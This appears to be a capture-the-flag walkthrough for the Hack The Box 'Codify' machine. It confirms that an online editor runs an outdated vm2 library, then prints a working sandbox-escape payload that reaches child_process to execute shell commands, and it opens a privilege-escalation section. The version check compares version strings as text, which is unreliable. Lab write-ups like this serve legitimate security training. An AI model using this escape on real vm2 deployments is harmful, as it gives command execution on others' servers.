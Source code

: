 ## Check Vulnerability

You can confirm that the application is indeed vulnerable to command injection by running the following JS code in the editor.

```js
const version = require("vm2/package.json").version;

if (version < "3.9.17") {
    console.log("vulnerable!");
} else {
    console.log("not vulnerable");
}
```


As you can see, this application is vulnerable due to the VM2 package version being deprecated. You can get the exact version number by running -

```js
const version = require("vm2/package.json").version;
console.log(version);
```

## Exploit Codify Editor [HTB]

We can now try to exploit this vulnerable editor. A few google searches led me to [this page on the VM2 GitHub repository](https://github.com/patriksimek/vm2/issues/533#issuecomment-1750654480)

Copy and run the following code to the Codify editor to escape the sandbox and get command execution on the machine.

```js
const {VM} = require("vm2");

const vm = new VM();

const code = `
const g = ({}).__lookupGetter__;
const a = Buffer.apply;
const p = a.apply(g, [Buffer, ['__proto__']]);
p.call(a).constructor('return process')().mainModule.require('child_process').execSync('whoami');
`;

vm.run(code);
```

This should print `svc`, which is the user we are interacting as.

## Privilege Escalation

Now that we can execute commands inside the box, we need to find a way to escalate our privileges. Let's run some basic OS commands to get an overview of the machine and its users.

```bash
execSync('whoami');
```
